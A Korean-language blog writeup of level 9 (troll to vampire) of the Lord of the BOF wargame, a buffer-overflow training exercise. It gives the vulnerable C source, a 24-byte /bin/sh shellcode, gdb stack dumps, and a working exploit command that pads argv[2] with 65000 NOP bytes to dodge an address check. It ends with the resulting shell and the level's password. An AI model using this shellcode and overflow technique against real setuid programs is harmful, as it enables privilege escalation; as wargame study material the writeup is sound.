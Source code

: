 ```yaml
---
layout: post
title:  "[LOB]Level09. vampire"
subtitle:   "[LOB]troll → vampire"
categories: writeup
tags: lob vampire level09

---
```


# troll → vampire

## keyword : check 0xbfff

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

    // here is changed!
    if(argv[1][46] == '\xff')
    {
        printf("but it's not forever\n");
        exit(0);
    }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



lret의 2번째 값이 '\xff'이면 안된다..;;

그외에는 별거 없다.



스택에서 버프의 위치가 0xbfff 영역에 존재하기 때문에 필터링에 걸릴 수 밖에 없다.

따라서 argv[2]의 많음 값의 데이터를 넣어서 버퍼의 주소가 0xbfff영역을 벗어나게 만들어야 한다.

```sh
Starting program: /home/troll/./aampire `python -c 'print "A"*44+"\xff\xff\xbf\xbf"'` `python -c 'print "\x90"*65000'`

Breakpoint 1, 0x80484b9 in main ()
(gdb) x/32x $esp
0xbffefcd8:	0xbffefce0	0xbffefe63	0x41414141	0x41414141
0xbffefce8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffefcf8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffefd08:	0x41414141	0xbfbfffff	0x00000000	0xbffefd54
0xbffefd18:	0xbffefd64	0x40013868	0x00000003	0x08048380
0xbffefd28:	0x00000000	0x080483a1	0x08048430	0x00000003
0xbffefd38:	0xbffefd54	0x080482e0	0x080484fc	0x4000ae60
0xbffefd48:	0xbffefd4c	0x40013e90	0x00000003	0xbffefe4d
```

argv[2]에 NULL값을 65000개 넣었더니 esp값이 0xbffe영역을 가리키고 있다.



```sh
[troll@localhost troll]$ ./vampire `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"A"*20+"\xe0\xfc\xfe\xbf"'` `python -c 'print "\x90"*65000'`
1�Ph//shh/bin��PS�ᙰ
                    ̀AAAAAAAAAAAAAAAAAAAA����
bash$ my-pass
euid = 509
music world
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
```



##### **vampire / music world**